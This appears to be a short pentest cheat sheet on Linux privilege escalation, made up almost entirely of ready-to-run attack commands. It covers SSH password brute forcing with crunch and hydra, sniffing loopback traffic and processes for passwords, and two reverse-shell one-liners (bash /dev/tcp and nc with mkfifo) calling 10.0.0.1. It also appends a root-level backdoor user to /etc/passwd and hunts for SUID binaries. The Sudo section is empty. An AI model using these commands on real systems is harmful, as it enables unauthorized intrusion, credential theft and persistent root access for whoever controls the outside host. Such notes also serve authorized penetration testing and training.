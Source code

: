 # Linux Privilege Escalation

## Automated enumeration

```
/usr/bin/unix-privesc-check
```

## Brute force ssh

```
crunch 11 11 -t Password%%% > wordlist
hydra -l user -P wordlist $VictimIP -t 4 ssh -V
```

## Services

```
sudo tcpdump -i lo -A | grep "pass"
watch -n1 "ps auxww | grep pass | grep -v grep | fold -s
```

## Cron jobs

Source: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Passwd file

```
openssl passwd passwordtohash
echo "newadmin:somehaststring:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## SUID

Source: https://gtfobins.github.io/
```
find / -perm /6000 -exec ls -ld {} \; # setuid + setgid
grep Uid /proc/procnum/status
ls -asl /usr/bin/somebin
```

## Sudo

```

```




